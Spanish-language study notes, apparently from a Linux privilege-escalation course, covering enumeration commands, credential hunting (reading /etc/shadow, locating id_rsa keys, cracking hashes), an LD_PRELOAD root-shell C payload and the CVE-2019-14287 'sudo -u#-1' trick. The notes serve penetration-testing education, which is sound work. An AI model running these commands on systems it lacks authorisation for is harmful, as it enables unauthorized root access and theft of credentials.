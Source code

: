  # Ciber Mentor LINUX

Tags: #LinPEAS #Linux #Escalada #PSPY 
 
## Webpages de ayuda
* [Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [Linux Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
* [Checklist - Linux Privilege Escalation](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)
*  [Sushant 747's Guide (Country dependant - may need VPN)](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)

## Initial Enumeration 

```bash
❯ lsb_release -a              # Para ver que distribucion de Linux es
❯ hostname                    # En que distribucion de Linux estamos
❯ uname -a                    # Miramos el Kernel y algunos detalles, amdx64 o x86, version. Buscar el Google si existe algun exploit. 
❯ cat /proc/version           # Miramos algo similar al comando anterior
❯ cat /etc/issue              # Miramos la distribucion, arquitectura, etc...
❯ ps aux                      # Servicios que estan corriendo, que usuario esta corriendo la tarea, tareas Cron
	❯ ps aux | grep root     # Mirar las tareas que se ejecutan del usuario root

❯ whoami                      # Quien soy?
❯ id                          # Miramos nuestro user ID, a que grupos pertenecemos, etc...
❯ sudo -l                     # Para ver si tenemos privilegios en el Sudoers (l=ele), que podamos ejecutar comandos como (root) NOPASSWD
	❯ sudo Command           # Para poder ejecutar comando como root
❯ cat /etc/passwd             # Podemos ver los usuarios, no las passwd. Los usuarios tiene /bin/bash al final 
❯ cat /etc/shadow             # Archivos sensibles 
❯ cat /etc/group
❯ history                     # Podemos ver el historial de los comandos
❯ sudo su -                   # Covertirnos en root, colocando la passwd

❯ ifconfig  o  ip a           # Miras las interfaces de Linux, IP Address
❯ route  o  ip route          # Miras la tabla de ruteo y la interface
❯ arp -a  o  ip neigh         # Miras la tabla de ARP
❯ netstat -ano                # Miras los puertos que estan abiertos de manera interna

❯ grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null     # Te colorea la palabra passwd para que se mas facil encontrarla
❯ locate password | more                                                    # Buscamos la palabra password y lo concatenamos con el coamndo More para ir bajando lentamente.
❯ find / -name authorized_keys  o  find / -name id_rsa 2> /dev/null         # Encontrar la clave rsa de SSH
```

## Exploring Automated Tools
Webpages 
- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)    ->   Para descragar el binario debemos de ir a **'Quick Start > the releases page > linpeas.sh'**
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)
- [Linux Priv Checker](https://github.com/sleventyeleven/linuxprivchecker)

```bash
❯ ./linpeas.sh                           # Para ejecutar el binario, podremos ver los diferentes colores y ahi podremos ver en donde es mas facil poder hacer el (PE=Privilege Escalation)

	# Podremos encontrar archivos o passwds

❯ ./linux-exploit-suggester.sh           # Podemos ver los CVE potenciales
```

## Kernel Exploits
Webpage 
- [Kernel Exploits](https://github.com/lucyoa/kernel-exploits)    ->   Podemos buscar la versión del Kernel en Google y ver si tiene un exploit, o podemos usar la herramienta Exploit Suggester para ver los exploit que podemos usar para Escalar Privilegios

## Escalation Path: Passwd and File permisions

```bash
❯ history                         # Podemos ver el historial y puede que haya alguna passwd
❯ .bash_history                   # Lo podemos encontrar al momento de hacer 'ls -la', despues un 'cat'. Ahi tambien podrian existir passwd
❯ myvpn.ovpn                      # Podemos hacerle un 'cat' al file del VPN y mirar la ruta de su passwd y asi obtenerla

Podemos usar la Web de PaylodAllTheThings para mirar los archivos que contienen passwd y correr el comando. 

❯ cat /etc/passwd                 # Podemos ver los usuarios, gupo e id, tambien contiene un primer x que es ahi donde esta la passwd
❯ cat /etc/shadow                 # Podems ver los Hash 

Podemos hacer cosas maliciosas con la Tool 'Unshadow' 
1.- Debemos de tener el contenido del '/etc/passwd' en un archivo que se llame 'passwd'
2.- Debemos de tener el contenido del '/etc/passwd' en un archivo que se llame 'shadow'
Esta Tool te hara juntar los dos archivos 
Despues con Hashcat podemos saber que tipo de Hash es y usando el diccionario de rockyou podriamos saber la passwd
O podemos usar John the Ripper para saber la passwd con el Hash

Podemos encontrar algunas keys con estos comandos:
❯ find / -name authorized_keys 2> /dev/null          # Para buscar la clave Publica
❯ find / -name id_rsa 2> /dev/null                   # Para buscar la clave Privada

Buscaremos la id_rsa para podernos conectar por SSH con la clave privada 
❯ ssh -i id_rsa user@ip                              # Nos conectamos por SSH sin proporcionar la passwd, el archivo id_rsa debe tener 600 de privilegio con chmod
```

## Escalation Path Sudo

Webpage Buscar en 'Sudo privileges' el comando que podamos ejecutar en el sudoers
 - [GTFOBins](https://gtfobins.github.io/)
 - [Linux PrivEsc Playground](https://tryhackme.com/room/privescplayground)

```bash
❯ sudo -l                        # Podemos ver los privilegios en el sudoers (l=ele) y ver que comandos podemos ejecutar como root sin passwd
Tenemos comandos para vim, awk, nano, apache2, etc...
❯ LD_PRELOAD                     # Podemos hacer un script en el cual podriamos ejecutar cualquie comando que aparezca en el Sudoers (Liberia PreLoad)
	❯ nano shell.c
		\#incude  <stdio.h>
		\#include <sys/types.h>
		\#include <stdlib.h>

		void init() {
			unsetenv("LD_PRELOAD");
			setgid(0);
			setuid(0);
			system("/bin/bash");
		}
❯ gcc -fPIC -shared -o shell.so shell.c -nostartfiles       # Despues lo compilamos
❯ sudo LD_PRELOAD=/home/user/shell.so < COMMAND>            # Ahi podemos colocar cualquier comando que salga en el sudoers, debemos de colocar la ruta absoluta del shell.so
```

 - [Exploit-DB for CVE-2019-14287](https://www.exploit-db.com/exploits/47502) Cuando tenemos en el Sudoers un (!root)
Ahí nos explica que comando poner para poder ser root.
```bash
❯ sudo -u#-1 /bin/bash                                       # Comando para ser root cuando tenemos en el sudoers un (!root)
```

## Escalation Path: SUID (Set User ID)

```bash
1er Owner (Propietario), 2do Grupo, 3ro Otros (r=read, w=write, x=execute, d=directory) (r=4 bits, w=2bits, x=1bit)  7=rwx
❯ chmod +x file                         # Asignamos los permisos de ejecucion, en este caso para todos 
❯ chmod o+x file                        # Asignamos permisos de ejecucion, en este caso para otros

❯ find / -perm -u=s -type f 2>/dev/null # Buscaremos en la raiz los archivos que contengan el permiso S (f=files) y los errores que no nos aparezcan, encotramos varios, por lo que escogemos uno para ver sus privilegios
	Se verian asi:
		❯ ls -la /usr/bin/systemctl   # Para ver los privilegios del archivo y lo mirariamos asi - rw**s** r-x r-x 
```

 - [GTFOBins](https://gtfobins.github.io/) Para buscar ahí el SUID y ver como podemos ejecutar el comando para escalar privilegios
Aveces no todos son vulnerables y por lo tanto no se encuentran en esa pagina.

## Escalation Path: Other SUID Escalation
